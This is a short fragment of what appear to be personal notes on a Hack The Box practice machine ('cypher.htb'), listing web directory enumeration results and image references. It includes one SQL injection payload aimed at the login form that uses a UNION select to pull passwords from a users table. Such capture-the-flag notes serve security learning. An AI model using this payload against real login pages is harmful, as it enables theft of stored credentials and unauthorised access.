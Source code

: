 
`/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]`
![[Images/Pasted image 20250330014321.png]]

`/login                (Status: 200) [Size: 3671]`
![[Images/Pasted image 20250330014456.png]]![[Images/Pasted image 20250330014629.png]]

the same for just a '

admin' union select 1,2,3,4,5,6,password from users -- -
![[Images/Pasted image 20250330014906.png]]


`/api                  (Status: 307) [Size: 0] [--> /api/docs]`
![[Images/Pasted image 20250330015858.png]]


`/about                (Status: 200) [Size: 4986]`
`/demo                 (Status: 307) [Size: 0] [--> /login]`
`/index                (Status: 200) [Size: 4562]`
